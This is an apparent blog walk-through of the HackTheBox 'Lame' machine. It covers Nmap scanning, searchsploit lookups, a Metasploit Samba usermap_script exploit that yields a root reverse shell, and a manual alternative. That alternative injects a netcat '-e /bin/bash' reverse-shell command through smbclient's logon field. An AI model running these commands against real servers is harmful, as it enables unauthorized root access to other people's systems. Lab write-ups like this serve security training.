 ```yaml
---
title: "Walk-through of Lame from HackTheBox"
header:
  teaser: /assets/images/2020-04-05-21-43-26.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - smbclient
  - Samba
  - Metasploit
  - Linux
---
```


## Machine Information

![Lame](/assets/images/2020-04-05-21-43-26.png)

Lame is a beginner level machine, requiring only one exploit to obtain root access. Skills required are basic knowledge of Linux and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting Samba.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 001 - Easy - Lame](https://www.hackthebox.eu/home/machines/profile/1) |
| Machine Release Date | 14th March 2017 |
| Date I Completed It | 14th July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/lame# nmap -sS -sC -sV -oA lame -p- -T4 10.10.10.3

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-16 22:10 BST
Nmap scan report for 10.10.10.3
Host is up (0.037s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup:WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup:WORKGROUP)
3632/tcp open  distccd     distccd v1((GNU)4.2.4(Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -2d23h00m43s, deviation: 0s, median: -2d23h00m43s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-07-13T14:11:05-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
```

Lots of ports open. Has port 21 open with anonymous FTP, but looking around there is nothing obvious.

### Gaining Access

Box is running vsftpd 2.3.4 so check searchsploit for vulnerability:

```text
root@kali:~/htb/lame# searchsploit vsftpd
---------------------------------------------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption | exploits/linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(1)  | exploits/windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service(2)  | exploits/windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                               | exploits/linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)         | exploits/unix/remote/17491.rb
---------------------------------------------------------------------------------
```

Last one in above list for backdoor execution looks good. Start Metasploit and load exploit:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search vsftpd 2.3.4
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 > show options
msf5 > set RHOST 10.10.10.3
msf5 > exploit
```

No luck, go back to list of services, now try samba on port 445:

```text
root@kali:~/htb/lame# searchsploit samba 3.0.20
---------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | exploits/linux/remote/7701.txt
---------------------------------------------------------------------------------
```

Remote heap overflow sounds promising, go back in to Metasploit and try it:

```text
root@kali:~/htb/lame# msfconsole
msf5 > search samba 3.0.20
msf5 > use exploit/multi/samba/usermap_script
msf5 > set RHOST 10.10.10.3
msf5 > exploit

[*] Started reverse TCP double handler on 10.10.14.14:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NKYmctrocnnm8nuo;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "NKYmctrocnnm8nuo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.14:4444 -> 10.10.10.3:35080) at 2019-07-16 22:18:10 +0100
```

This works and I now have a reverse shell on to the box.

### User and Root Flags

I have a shell, but need an interactive one to make progress:

```text
msf5 > shell
[*] Trying to find binary(python) on target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
```

Now have interactive shell so get the user flag:

```text
# ls /home
ftp  makis  service  user

# ls /home/makis
user.txt

# cat /home/makis/user.txt
# cat /root/root.txt
```

## Alternative Method (without MetaSploit)

Start a Netcat session listening on my Kali machine:

```text
root@kali:~/htb/lame# nc –lvp 4444
```

Switch to another terminal and use smbclient to connect:

```text
root@kali:~/htb/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password:        <--- just press enter
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc 10.10.14.22 4444 –e /bin/bash`"
Password:                               <--- just press enter
```

Switch back to Netcat terminal and should have root shell:

```text
# id
uid=0(root) gid=0(root)
```

I can now get the user and root flags, from the paths the same as above.

